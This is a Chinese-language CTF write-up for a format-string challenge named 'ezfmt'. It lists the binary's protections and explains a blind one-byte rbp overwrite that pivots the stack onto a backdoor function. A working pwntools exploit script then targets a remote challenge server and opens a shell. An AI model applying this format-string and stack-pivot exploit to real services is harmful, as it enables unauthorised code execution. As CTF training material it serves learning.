 # ezfmt string 

## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO|Partial|
|Canary|on    |
|NX    |on    |
|PIE   |off   |
|strip |no    |

## 解题思路

考察格式化字符串却不给libc，说明要找共通之处，先patch一下2.31，发现依赖更高版本，
遂尝试2.35，两者不变的地方在于靠近rbp的位置有一个指向rbp的指针，并且binary中还有一个后门函数。
如果直接把后门函数写到retAddr上，那么会因为栈无法对齐而SIGSEGV，于是可以修改rbp，打栈迁移，
把栈迁移到输入的后门函数地址的下方，这样在main函数返回时就会执行之；不过输入前没有输出，
栈迁移到哪里是盲打的，只有1/16的概率能够命中

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']

def payload(lo:int, rbp:int=0x58):
    global sh
    if lo:
        sh = process('./fmt')
        if lo & 0b10:
            gdb.attach(sh)
    else:
        sh = remote('47.100.137.175', 32034)
    elf = ELF('./fmt')
    sysAddr = elf.symbols['sys']

    if lo & 0b100:
        byte = int(input('input known addr of rbp( & 0xff ):'), 16) # 输入sysAddr - 8的最后一字节以准确命中
    else:
        byte = rbp

    # payload, stack pivot to &sysAddr
    sh.sendline(f'%{byte}c%18$hhn'.ljust(0x10).encode() + p64(sysAddr)) # <- sysAddr is here

    sh.clean(0.5) # have a clean shell
    sh.interactive()
```
